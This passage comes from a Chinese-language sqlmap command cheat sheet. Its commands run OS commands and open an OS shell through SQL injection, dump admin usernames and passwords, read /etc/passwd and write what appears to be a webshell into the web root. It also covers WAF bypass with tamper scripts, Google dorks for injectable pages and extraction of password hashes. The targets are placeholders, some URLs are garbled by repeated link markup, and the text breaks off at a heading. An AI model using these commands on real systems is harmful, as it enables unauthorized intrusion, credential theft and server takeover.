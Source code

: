 #### 执行命令

* `--url="[http://127.0.0.1/new.php?id=](http://127.0.0.1/new.php?id=) 1" --os-cmd=ipconfig`
* `--url="[http://127.0.0.1/new.php?id=1](http://127.0.0.1/new.php?id=1)" --os-shell`

#### 伪静态

* `--url="http://127.0.0.1/xxx*/12345.jhtml" --dbs`
* `--url="[http://127.0.0.1/xxx*/12345.jhtml](http://127.0.0.1/xxx*/12345.jhtml)" -tables -D xxxx`
* `--url="[http://127.0.0.1/xx*/12345.jhtml](http://127.0.0.1/xx*/12345.jhtml)" --columns -D xxxx -T admin`
* `--url="[http://127.0.0.1/xxx*/12345.jhtml](http://127.0.0.1/xxx*/12345.jhtml)" --dump -D xxxx -T admin -C "username, password"`

#### 请求延时

* `--url="[http://127.0.0.1/Indexview/id/40.html](http://127.0.0.1/Indexview/id/40.html)" --delay=2`
* `--url="[http://127.0.0.1/Indexview/id/40.html](http://127.0.0.1/Indexview/id/40.html)" --safe-freg=5`

#### 导出所有数据

 `--dump-all`

#### Google

 `-g inurl:php?id=`

#### 读文件

 `--file-read /etc/passwd`

#### 写文件

 `--file-write /mm.php --file-dest /var/www.mm.php`

#### 绕过waf

 `--url="http://127.0.0.1/new.php?id=1" --tamper space2morehash.py --level=3 --batch --dbs space2hash.py base64encode.py charencode.py`

#### 判断当前用户是否是dba

 `python sqlmap.py -u "url" --is-dba`

#### 列出数据库管理系统用户

 `python sqlmap.py -u "url" --users`

#### 数据库用户密码（hash）

 `python sqlmap.py -u "url" --passwords`

 `python sqlmap.py -u "url" --passwords -U sa`

#### 查看用户权限
